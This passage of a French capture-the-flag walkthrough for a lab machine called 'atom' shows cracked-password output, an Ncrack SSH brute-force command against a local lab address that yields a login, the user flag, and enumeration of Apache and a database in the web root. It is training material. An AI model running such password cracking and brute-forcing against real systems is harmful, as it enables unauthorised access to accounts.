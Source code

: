 ```console
10101979         (?)     
number17         (?)     
chatroom         (?)     
mackenzie2       (?)     
djones           (?)     
trick1           (?)     
jaffa1           (?)     
dezzy            (?)     
poynter          (?)     
kittyboo         (?)     
241107           (?)     
cukorborso       (?)     
36g 0:00:00:01 DONE (2025-05-24 10:12) 19.57g/s 4843Kp/s 6482Kc/s 6482KC/s d704914..crompingtons
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Avec tous ces mots de passe, on peut passer à Ncrack. Je m'y ferais jamais qu'il faille `-v` pour afficher les passwords trouvés en temps réel.

```console
$ ncrack -U ipmi_users.txt -P pass.txt ssh://192.168.56.104

Starting Ncrack 0.8 ( http://ncrack.org ) at 2025-05-24 10:15 CEST
Discovered credentials for ssh on 192.168.56.104 22/tcp:
192.168.56.104 22/tcp ssh: 'onida' 'jiggaman'

Ncrack done: 1 service scanned in 429.03 seconds.

Ncrack finished.
```

Premier flag :

```console
onida@atom:~$ cat user.txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

Après avoir cherché des défauts de permission et binaires setuid, j'ai remarqué la présence d'Apache dans les process :

```
root         443  0.0  0.7 205752 21876 ?        Ss   17:54   0:00 /usr/sbin/apache2 -k start
www-data     476  0.0  0.3 206328 11168 ?        S    17:54   0:00 /usr/sbin/apache2 -k start
www-data     477  0.0  0.3 206328 11168 ?        S    17:54   0:00 /usr/sbin/apache2 -k start
www-data     478  0.0  0.3 206328 11168 ?        S    17:54   0:00 /usr/sbin/apache2 -k start
www-data     479  0.0  0.3 206328 11168 ?        S    17:54   0:00 /usr/sbin/apache2 -k start
www-data     480  0.0  0.3 206328 11168 ?        S    17:54   0:00 /usr/sbin/apache2 -k start
```

Étonnant vu que le port 80 est inaccessible. Il y a une base de données dans la racine web :

```console
onida@atom:/var/www/html$ ls -al
total 172
drwxr-xr-x 6 www-data www-data   4096 May 27  2024 .
drwxr-xr-x 3 root     root       4096 May 25  2024 ..
-rwxr-xr-x 1 www-data www-data 114688 May 27  2024 atom-2400-database.db
drwxr-xr-x 2 www-data www-data   4096 Dec 31  2400 css
drwxr-xr-x 4 www-data www-data   4096 Dec 31  2400 img
-rw-r--r-- 1 www-data www-data  11767 Dec 31  2400 index.php
drwxr-xr-x 2 www-data www-data   4096 Dec 31  2400 js
-rw-r--r-- 1 www-data www-data   6262 Dec 31  2400 login.php
-rwxr-xr-x 1 www-data www-data   1637 Dec 31  2400 profile.php
-rw-r--r-- 1 www-data www-data   5534 Dec 31  2400 register.php
drwxr-xr-x 2 www-data www-data   4096 Dec 31  2400 video
onida@atom:/var/www/html$ file atom-2400-database.db 
```